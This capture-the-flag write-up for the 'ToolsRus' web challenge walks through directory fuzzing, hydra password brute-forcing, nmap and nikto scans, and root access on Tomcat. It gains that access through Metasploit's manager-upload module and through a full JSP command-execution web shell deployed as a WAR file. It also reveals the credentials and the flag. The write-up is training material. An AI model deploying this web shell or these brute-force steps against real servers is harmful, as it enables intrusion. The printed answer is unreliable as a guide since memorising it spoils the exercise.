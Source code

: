 # ToolsRus

## Challenge Information
- **Challenge Name**: ToolsRus
- **Category**: Web Exploitation
- **Difficulty Level**: Easy

## Initial Enumeration

1. From the given tools to be used, start using the first one. i.e. dirbuster. But I used `ffuf` instead, due to its its simplicity and efficiency:
```bash
ffuf -u http://<IP_ADDRESS>/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40 -e .php,.txt,.bak,.html
```
This gives the very first directory `guidelines`.

2. Open this directory in the browser `http://<IP_ADDRESS>/guidelines`. This will give some content in which the name is given as `bob`.

3. When we did the directory traversal, we found another directory `/protected`. This is the answer for this.

4. When we visit this directory, it asks for authentication. The username is obviously `bob`. Now we have to find the password. So lets use hydra now:
```bash
hydra -l bob -P /usr/share/wordlists/rockyou.txt -t 1 -f <IP_ADDRESS> http-get /protected/
```
This will give us the password `bubbles`.

5. When we open this directory with the correct credentials, the web page shows that the file has been moved to another port. So now lets scan the ipaddress with nmap:
```bash
nmap -sV -p 1234 <IP_ADDRESS>
```
This will give the currently open port `1234`.

6. Visit the port: `http://<IP_ADDRESS>:1234/`. It will take to a new webpage where the information of the server can be found: `Apache Tomcat/7.0.88`.

7. Now as istructed, lets run the command:
```bash
nikto -h http://<IP_ADDRESS>:1234/manager/html -id bob:bubbles
```
for the specified directory with the known credentials. This will give some data in which the information of some files is also given. Count the total number of files: `5`.

8. If we run a simple nmap command:
```bash
nmap <IP_ADDRESS>
```
It will give some open ports. There will be a port `80` for http. Scan this port:
```bash
nmap -sV -p 80 <IP_ADDRESS>
```
This will give the version of the server `Apache/2.4.18`.

9. The version of the `Apache-Coyote` can be seen in the start of the result when we ran the nikto command: `1.1`.

## Exploitation Methods

### Method 1 - Using Metasploit
-> open the metasploit console using the command `msfconsole`.
-> run the command `search type:exploit tomcat` to search for the exploits of tomcat.
-> using the command `use exploit/multi/http/tomcat_mgr_upload`, select the exploit `exploit/multi/http/tomcat_mgr_upload` since we are dealing with the uploading of a script to get the reverse shell.
-> use command `show options` to see the options that we need to fill up before running the exploit. now we have to run the following command to add the required options:
1. set target 0
2. set httppassword bubbles
3. set httpusername bob
4. set rhost <IP_ADDRESS>
5. set rport 1234
6. set lhost <YOUR_THM_VPN_IP>
7. set lport 4444

10. After all these, again run the options command and verify all the options are set properly. now use command `run` to run the exploit. After the successful execution, type `shell` to get the shell. Now run `whoami` to check the user. It will give us `root`.

11. Now run the command `ls`, which will many directories in which one directory with the name of `root` is also present. Navigate into that `cd root`. Again see what files are present in there `ls`. Here you will see the file `flag.txt`. Read the contents of this file `cat flag.txt` and we will get the flag `ff1fc4a81affcc7688cf89ae7dc6e0e1`.

### Method 2 - Manual Exploitation
If you face any problem in running the exploit in metasploit, we can just upload the shell directly into the webpage. If we simply do some research that `how can we get reverse shell in Apache Tomcat/7.0.88?`, we will come to know that the directory `/manager` can help us here. So just open this directory `http://<IP_ADDRESS>/manager`. This will ask for the credentials. Simply use the credentials that we got before `bob, bubbles`. This will open a server page for the manager. Here we can see an option for uploading `war` files. Create a war file using the following steps:
-> create a shell.jsp file with the following contents:
```bash
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        String s = null;
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
        while ((s = sI.readLine()) != null) {
            out.println(s);
        }
    }
%>
```

run the commands:
```bash
mkdir -p mywebapp/WEB-INF
cp shell.jsp mywebapp/
jar -cvf shell.war -C mywebapp/ .
```
10. Now you have a shell.war file. Deploy it on the webpage, which will give message `ok` in the message field. Now simply use the url to get the user of the server `http://<IP_ADDRESS>/shell/shell.jsp?cmd=whoami`. This will give you the answer `root`.

11. Now run the url `http://<IP_ADDRESS>/shell/shell.jsp?cmd=ls`, which will many directories in which one directory with the name of `root` is also present. Navigate into that `http://<IP_ADDRESS>/shell/shell.jsp?cmd=cd root`. Again see what files are present in there `http://<IP_ADDRESS>/shell/shell.jsp?cmd=ls`. Here you will see the file `flag.txt`. Read the contents of this file `http://<IP_ADDRESS>/shell/shell.jsp?cmd=cat flag.txt` and we will get the flag `ff1fc4a81affcc7688cf89ae7dc6e0e1`.
